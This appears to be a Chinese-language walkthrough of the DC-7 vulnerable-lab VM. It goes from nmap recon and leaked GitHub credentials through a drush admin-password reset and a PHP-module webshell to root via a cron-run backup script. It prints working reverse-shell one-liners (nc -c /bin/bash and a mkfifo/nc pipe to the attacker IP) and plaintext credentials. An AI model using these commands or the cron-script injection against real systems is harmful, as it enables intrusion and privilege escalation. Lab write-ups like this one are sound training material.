









靶机描述:
```
DESCRIPTION
DC-7 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

While this isn't an overly technical challenge, it isn't exactly easy.

While it's kind of a logical progression from an earlier DC release (I won't tell you which one), there are some new concepts involved, but you will need to figure those out for yourself. :-) If you need to resort to brute forcing or dictionary attacks, you probably won't succeed.

What you will need to do, is to think "outside" of the box.

Waaaaaay "outside" of the box. :-)
```


**环境配置**
一样的 ova导入 启动改NAT

靶机ip: 192.168.136.159

**信息收集**
nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 d0:02:e9:c7:5d:95:32:ab:10:99:89:84:34:3d:1e:f9 (RSA)
|   256 d0:d6:40:35:a7:34:a9:0a:79:34:ee:a9:6a:dd:f4:8f (ECDSA)
|_  256 a8:55:d5:76:93:ed:4f:6f:f1:f7:a1:84:2f:af:bb:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Welcome to DC-7 | D7
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


给的一个登录界面
还有个search

两处尝试sql注入都没啥用 大概率不是sql

再看了看感觉问题点应该是出在search这里

可以用AND OR这些搜索语法

网上能搜到Drupal8的一些CVE 但都是能够CreateCount的情况下
而我们只能登录和发reset邮箱

作者提示的`think out of the box`是指这儿


omg... github一搜直接搜到源码
[here](https://github.com/Dc7User/staffdb)

config.php有mysql的账密

dc7user MdR3xOgB7#dW

但登录不进去
尝试SSH登录 成功

对html信息收集
找drupal网站的配置文件 (settings.php)

`/var/www/html/sites/default/settings.php`

找到数据库账密
```
$databases['default']['default'] = array (
  'database' => 'd7db',
  'username' => 'db7user',
  'password' => 'yNv3Po00',
  'prefix' => '',
  'host' => 'localhost',
  'port' => '',
  'namespace' => 'Drupal\\Core\\Database\\Driver\\mysql',
  'driver' => 'mysql',
);

```


连接发现没有表里面没有user的数据...


emmmm

查看/var/mail
在dc7user的邮件找到
Cron 计划任务


而且发现dc7user有权限运行


那么就是用这个sh搞事情了罢
```sh
#!/bin/bash
rm /home/dc7user/backups/*
cd /var/www/html/
drush sql-dump --result-file=/home/dc7user/backups/website.sql
cd ..
tar -czf /home/dc7user/backups/website.tar.gz html/
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.sql
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.tar.gz
chown dc7user:dc7user /home/dc7user/backups/*
rm /home/dc7user/backups/website.sql
rm /home/dc7user/backups/website.tar.gz
```

其中有一个`drush`命令
[Drupal Drush常用命令](https://zhuanlan.zhihu.com/p/60880048)

这算是提示我们dc7user shell执行drush改admin密码...
(注意要进入/var/www/html 不然没权限)
`drush upwd admin --password="123456"`

```shell
dc7user@dc-7:/var/www/html$ drush upwd admin --password="123456"
Changed password for admin                                           [success]
```
admin 123456

以admin登录成功

接着就是CMS找漏洞

能找到自定义上传module的点
后缀有waf
再翻翻发现可以修改profile这里可以传图片
但也不大行

发现我们有权限install所以模块 找找有没有能上webshell的
emm  没找到

这个drupal没有php执行器...
用Install module给他安一个 `https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz`


然后在Add Content的BasicPage可以自定义php


emmm 直接写怎么写都会被过滤...


想了想是刚刚安的php没刷新出来? TextFormat理应有php选项才对啊
后来发现要在extension把php勾上



再回去就能写webshell 了 (php要换行 不然会被转义字符...)


蚁剑连接后反弹shell到kali
`nc -c /bin/bash 192.168.136.146 7777`

接下来就是提权了
python起交互shell `python -c 'import pty;pty.spawn("/bin/bash")'`

可以利用先前找到的backups.sh
`/opt/scripts/backups.sh`

看看我们有没有写权限
`-rwxrwxr-x 1 root www-data 520 Aug 29  2019 backups.sh`


可以看到www-data对这个sh是有root同等权限的

注意写的时候用 `>>`...
手贱写成了 `>` 只能重开环境了...(从头导入ova...) (要是真实战就gg)


继续上面步骤 我们写入命令来提权

直接写 `/bin/bash`不行
可以写反弹shell

新方法:`rm /tmp/f ; mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 192.168.136.146 9999 >/tmp/f`
or
nc -c
`nc -c /bin/bash 192.168.136.146 9999`

但貌似只有新方法能跑... 不知道下面的有什么bug...

写入后运行 `./backups.sh`如果我们www-data运行的话反弹的是www-data权限

这个是写入定时任务让root触发

等吧

反正过程就是这样 不知道为什么就只成功一次... 还忘截图了

---
---

DC7较之前确实更加复杂了 虽说最后没打通(...) 但还是学到了很多
总结一下:
第一步也是最关键的一步 根据网站上泄露的信息搜索得到源码!!!!
然后SSH连接看mail 发现计划任务的sh脚本能提权 但dc7user没有写权限
通过脚本提示发现可以drush修改admin密码 - 这步也是关键操作 要结合CMS的特性来发现利用
登录后是CMS的getshell操作: 找到能写php的点 安装php 传马getshell
www-data进一步提权 写反弹shell进backups.sh
等待root启动定时任务获得root权限